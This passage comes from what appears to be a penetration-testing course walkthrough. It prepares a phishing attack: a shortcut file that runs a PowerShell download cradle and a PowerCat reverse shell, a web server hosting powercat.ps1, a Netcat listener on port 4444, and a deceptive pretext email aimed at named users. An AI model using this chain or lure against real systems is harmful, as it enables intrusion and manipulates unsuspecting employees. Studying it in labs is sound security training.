 > Listing 35 - PowerShell Download Cradle and PowerCat Reverse Shell Execution for shortcut file

Once we enter the command and **install** as shortcut file name, we can transfer the resulting shortcut file to our Kali machine into the WebDAV directory.

Our next step is to serve PowerCat via a Python3 web server. Let's copy **powercat.ps1** to **/home/kali/beyond** and serve it on port 8000 as we have specified in the shortcut's PowerShell command.

```
kali@kali:~/beyond$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~/beyond$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

> Listing 36 - Serving powercat.ps1 on port 8000 via Python3 web server

Once the Python3 web server is running, we can start a Netcat listener on port 4444 in a new terminal tab to catch the incoming reverse shell from PowerCat.

```
kali@kali:~/beyond$ nc -nvlp 4444      
listening on [any] 4444 ...
```

> Listing 37 - Listening on port 4444 with Netcat

With Netcat running, all services and files are prepared. Now, let's create the email.

We could also use the WebDAV share to serve Powercat instead of the Python3 web server. However, serving the file via another port provides us additional flexibility.

To send the email, we'll use the command-line SMTP test tool [*swaks*](http://www.jetmore.org/john/code/swaks/). As a first step, let's create the body of the email containing our pretext. Because we don't have specific information about any of the users, we have to use something more generic. Fortunately, we obtained some information about the target company on WEBSRV1 within the Git repository.

Including information only known to employees or staff will tremendously increase our chances that an attachment is opened.

We'll create the **body.txt** file in **/home/kali/beyond** with the following text:

```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

Hopefully this text will convince *marcus* or *daniela* to open our attachment.

In a real assessment we should also use passive information gathering techniques to obtain more information about a potential target. Based on this information, we could create more tailored emails and improve our chances of success tremendously.
